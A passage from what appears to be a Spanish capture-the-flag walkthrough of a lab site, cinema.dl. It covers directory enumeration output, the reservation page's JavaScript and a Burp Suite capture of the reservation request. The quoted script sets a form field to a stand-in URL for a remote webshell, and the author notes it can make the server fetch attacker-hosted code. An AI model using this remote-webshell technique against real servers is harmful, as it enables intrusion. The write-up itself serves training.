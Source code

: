 ```
/server-status        (Status: 403) [Size: 274]
Progress: 882184 / 882188 (100.00%)
```
ahora intentamos clicar alguna pelicula para ver como se comporta la página y solo deja acceder a una
"El tiempo que tenemos" y nos lleva a una especie de reserva.
```
http://cinema.dl/reserva.html
```
miramos el códigofuente con ctrl+u y vemos esto:
```
 reserveButton.addEventListener('click', (e) => {
                e.preventDefault();  // Prevent default action for confirmation

                if (selectedSeats.length > 0) {
                    // Llenar los campos del formulario en el popup con los datos de la reserva
                    const problemUrl = 'http://tusitio.com/uploads/webshell.php'; // URL maliciosa
                    document.getElementById('problem_url').value = problemUrl;

                    // Aquí puedes agregar más información como el nombre o correo si es necesario
                    // Ejemplo (se puede modificar según lo que desees pasar):
                    document.getElementById('name').value = "Juan Pérez"; 
                    document.getElementById('email').value = "juanperez@example.com";
                    document.getElementById('phone').value = "+34 600 123 456";

                    popup.style.display = 'flex'; // Mostrar el popup
                } else {
                    alert('Por favor, selecciona al menos una butaca para reservar.');
                }
```

esta parte es muy interesante:
```
 // Llenar los campos del formulario en el popup con los datos de la reserva
                    const problemUrl = 'http://tusitio.com/uploads/webshell.php'; // URL maliciosa
```
hay una parte del formulario donde podemos inyectar una url maliciosa para que descargue algo de ella

hacemos una reserva y con burpsuite capturamos la petición

```
POST /reservation.php HTTP/1.1

Host: cinema.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 123

Origin: http://cinema.dl

DNT: 1

Connection: close

Referer: http://cinema.dl/reserva.html

```